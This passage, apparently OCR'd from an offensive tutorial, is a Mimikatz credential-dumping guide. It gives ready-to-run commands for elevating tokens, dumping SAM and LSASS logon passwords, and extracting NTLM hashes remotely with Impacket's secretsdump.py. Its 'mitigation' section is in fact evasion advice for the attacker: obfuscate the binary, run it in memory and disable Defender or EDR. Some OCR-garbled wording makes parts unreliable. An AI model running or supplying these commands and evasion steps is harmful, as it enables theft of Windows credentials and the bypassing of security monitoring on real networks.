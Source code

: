 ```cmd
token::elevate
```

5. **Dump SAM Data Again**:

```cmd
lsadump::sam
```


#### Offline Credential Dumping 

1. **Dump SAM from a specific system**

```cmd
lsadump::sam /system:System /sam:Sam
```

2. **Execute combined Privilege and token Commands**

```cmd
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

---


### Detection and Mitigation

Mimikatz Is a powerful tool, but it is also highly detectable by modern security software. To minimize detection, consider the following. 

* **Windows event logs** Event IDS such as 4688 (process creation) and 4624 (successful logon) are logged. 
* **EDR (Endpoint in detection and response)** Tools like Microsoft Defender, ATP, Crowd Strike, and Sentinel One actively detect Mimikatz  
* **LSASS Protection** Credential Guard can prevent direct access to LSASS memory. 

#### Mitigation strategies. 

* **Obfuscate mimikatz** : Use custom builds or obfuscate the Mimikatz binary to bypass detection
* **Run Mimikatz in Memory** Use tools like Powershell, Cobalt Strike or Metasploit to execute Mimikatz in memory by passing disk best detection
* **Disable Defender/EDR.** Disable security solutions like Windows Defender or EDR software temporarily if possible.

---

### Alternatives to Mimikatz

#### Using Impacket for Remote Credential Dumping 

Impacket Alternative tools that can achieve similar results to Mimikatz for credentials extractions. 

1. Extract credentials from LSASS using inpacket's ``secretdump.py``

```cmd
secretsdump.py -just-dc-ntlm DOMAIN/Administrator@TARGET_IP
```

